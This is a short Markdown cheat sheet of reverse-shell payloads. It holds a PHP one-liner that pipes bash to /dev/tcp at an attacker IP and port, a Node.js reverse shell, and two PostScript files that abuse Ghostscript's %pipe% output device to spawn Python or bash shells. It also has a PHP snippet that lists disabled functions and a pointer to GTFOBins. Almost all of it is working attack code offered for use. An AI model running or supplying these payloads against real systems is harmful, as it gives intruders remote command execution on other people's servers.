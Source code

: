 # Reverse shells
## PHP Reverse Shell
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
```
- [PHP Reverse Shell](/php_rev_shell.php)
- [Powny Reverse Shell](powny-shell.php)

## Javascript Reverse Shell
```js
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(<port>, '<ip>');
```

## Postscript Reverse Shell
```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

```ps
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1') currentdevice putdeviceprops
```

## PHP RCE
```php
<?php var_dump(explode('.'.ini_get('disable_functions')));?>
```
   
## This is where you can get more reverse shell
***https://gtfobins.github.io***
